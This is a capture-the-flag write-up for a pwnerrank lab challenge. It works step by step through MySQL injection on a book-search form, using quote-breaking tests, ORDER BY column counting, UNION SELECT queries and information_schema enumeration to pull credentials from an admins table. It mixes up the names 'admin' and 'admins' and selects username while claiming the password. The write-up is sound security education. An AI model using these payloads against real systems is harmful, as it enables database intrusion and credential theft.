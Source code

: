 # Writeups for pwnerrank challenges

## SQL injection - Dump Database https://www.pwnerrank.com/tasks/sql-injection-dump-database

Side note: This challenge took somewhere around 2 hours to solve, I was not familiar with many of the SQLi techniques required to solve this challenge but knew where to look to learn.
To anyone learning and stuck just Try Harder! SQL injection cheat sheets are you friend, pay attention to details in the syntax! Before 'cheating' look up some of the talks by Joe McCray on SQL injection specifically: Defcon 17 talk will help with this challenge. Incredibly valuable stuff and really fun to watch.  He explains his thought process going through SQLi.  (Keep in mind his Defcon17 talk uses MS SQL not MySQL so there will be syntax differences)

"DEF CON 17 - Joseph McCray - Advanced SQL Injection"
https://www.youtube.com/watch?v=-AkUutmXwUI


### Objective
Steal the admin password

### Verifying SQL Injection
First step was to learn how the web application works, then try to verify SQL injection.  The page features a single text form that is used to search the small database.  The text form searches the "Book" and "Author" fields but not the "Price" field.

On to SQL injection. I tried the following basic SQL injections too see if I could learn some information about what database backend was in use.

```a'or 1=1
a" or 1=1
a' or '1'='1
a" or '1'='1
```

The following next injection I tried `a' or '1'='1'` generated a MySQL Syntax error:
```DB Error, could not query the database MySQL Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1'='1'%'' at line 1```


Time to add a MySQL comment `#` or `-- ` to the end and see if it works. `a' or '1'='1'#` Success! No error is generated, and all the contents are displayed.
![alt text](https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-1.png "SQLi Pic 1")

The fact that all the records are shown and no error is generated indicates `or 1=1` was executed.

### SQL Query
Now that SQL injection is verified and I know the database backend in use, MySQL.  Now I can create what I think is the SQL query in use to build on and understand how more queries will work.

Combining the knowledge of the application functionality (searching the Book and the Author field) the SQL query probably looks something like:
`SELECT book, author, price from books where book like '$userinput' or author like '$userinput';`

### Determining Amount of Columns and Collection More Information
The next step is to determine the amount of fields and gather some general information like the MySQL version or the user running the database.

The database has atleast 3 columns. So using `ORDER BY` we can being enumuration. First lets verify the `ORDER BY` query will work.

```' order by 1#```

Great it works, let's see how many columns there is.

```' order by 3#```
3 columns, works as expected.

```' order by 4#```
4 columns, no errors yet.

```' order by 5#```
ERROR! Number of columns in the current table is 4.


Moving forward it's time to check to see what columns are being printed to the screen.

```' or 1=1 union all select 1,2,3,4#```

The above query outputs:
![alt text](https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-2.png "SQLi Pic 2")


So the paramters 2, 3 and 4 get printed to screen, so we can change these to database columns and gather information from.

First check for the MySQL version and user.

```' or 1=1 union all select 1,version(),user(),4#```

![alt text](https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-3.png "SQLi Pic 3")
As can be seen version 5.5.53 of MySQL is likely in use and what looks like a debian operating system 'deb' version 8u1? Searching `5.5.53-0+deb8u1` on Google reveals this is correct.


### Getting the flag! < SPOILER WARNING! LAST CHANCE!! > 
Now that we can use SQL union queries to get information we can find the admin password.  First step is to find the right table. Time to use the `information_schema` table (hopefully we have access to read it) to see what other tables and columns exist.

```' or 1=1 union all select 1,table_name,3,4 from information_schema.tables#```
This reveals alot of tables, 42 to be exact. The last two tables are `admin` and `books`. Lets see what columns are in the `admin` table.

```' or 1=1 union all select 1,column_name,3,4 from information_schema.columns where table_name like 'admins'#```

Results show the following columns are present in the admin table: `id`, `username`, `password`, `email`.
The goal is to get the `admin` password, lets try and dump the passwords from the admin table.

```' or 1=1 union all select 1, username, 3, 4 from admins#```

Success, the flag has been claimed! Looks like there is only one entry in the admins database. 

`pwnerrank{REVOKED FLAG}`






